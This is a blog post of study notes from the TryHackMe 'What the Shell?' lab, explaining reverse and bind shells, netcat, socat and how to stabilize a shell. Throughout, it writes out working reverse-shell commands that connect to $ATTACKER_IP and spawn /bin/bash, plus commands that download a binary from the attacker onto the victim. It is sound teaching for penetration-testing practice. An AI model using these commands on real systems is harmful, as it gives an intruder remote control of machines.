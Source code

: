```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-27 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-27-tryhackme-complete-beginner.html
author: 100007
---
```


# TryHackMe: Complete Beginner

**author:** Nathan Acks  
**date:** 2021-10-27

# What the Shell?

## What Is a Shell?

Terminology:

- REVERSE SHELLS are shells where the target is forced to connect back to the attacker.
- BIND SHELLS are shells bound to a port on the target that the attacker can connect to later.

## Tools

Typical tools for creating reverse shells or connecting to bind shells:

- `netcat` (`nc`) is present on just about every UNIX-like system. It can do just about everything, but can be a little bit unstable when constructing reverse shells.
- `socat` is a more versatile, more stable netcat. Unfortunately, it is rarely installed out-of-the-box.
- `auxilary/multi/handler` is the netcat/socat equivalent in Metasploit. It is the only way to interact with the Meterpreter attack shell, and has built-in support for staged payloads.
- `msfvenom` is a stand-alone version of multi/handler. It can also generate reverse shell payloads.

Useful sites:

- [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Also check out /usr/share/webshells on Kali Linux.

- [Using Metasploit](https://cardboard-iguana.com/notes/metasploit.html)

## Types of Shells

Example reverse shell:

- Attacker: `nc -lvnp $LISTENER_PORT`
- Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

- Attacker: `nc $TARGET_IP $LISTENER_PORT`
- Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

Most initial reverse shells (in particular web shells) are non-interactive.

## Netcat

While binding to well-known ports requires the use of sudo, it’s also less likely to get flagged/blocked by intermediate firewalls.

## Netcat Shell Stabilization

One thing that causes a reverse shell to be non-interactive is when its running in a shell itself. It’s generally possible to stabilize these and get a fully interactive shell on UNIX-like systems:

- Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
- Suspend the reverse shell.
- Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won’t be visible. Trust the force!

You can _mostly_ bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn’t redirect control sequences, so Ctrl+C will still kill the connection).

It’s also possible to upgrade to a socat-powered shell, assuming that you have a statically-compiled version of socat. Typically, the way that you’d transfer this binary is by first spinning up a simply webserver in the directory with your socat binary on the attack machine, and then downloading that binary to the vicitim.

- UNIX LIKE: `wget $ATTACKER_IP/socat -O /tmp/socat`
- WINDOWS (POWERSHELL): `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows emp\socat.exe`

NOTE that in _none_ of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

- [Quick-n-Dirty Python Web Server](https://cardboard-iguana.com/notes/quick-n-dirty-python-web-server.html)

## Socat

Socat: Just an anything-to-anything connector!

```
# Reverse shell (attacker)
#
nc -lnp $LISTENER_PORT
socat TCP-LISTEN:$LISTENER_PORT -
# Reverse shell (target)
#
nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"
# Bind shell (attacker)
#
nc $TARGET_IP $LISTENER_PORT
socat TCP:$TARGET_IP:$LISTENER_PORT
# Bind shell (target)
#
nc -lnp $LISTENER_PORT -e /bin/bash
socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"
```

This gets us an interactive login shell right out the gate, though we’re still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems (though we will still need to use `stty` to set rows/columns).

```
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0
# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
# pty - allocate a PTTY
# stderr - redirect STDERR to the attacker
# sigint - pass signals (Ctrl+C) through
# setsid - use a new session
# sane - use a variety of tweaks to "normalize" the
# terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that it’s perfectly acceptable to kick off a socat process from inside a netcat process!

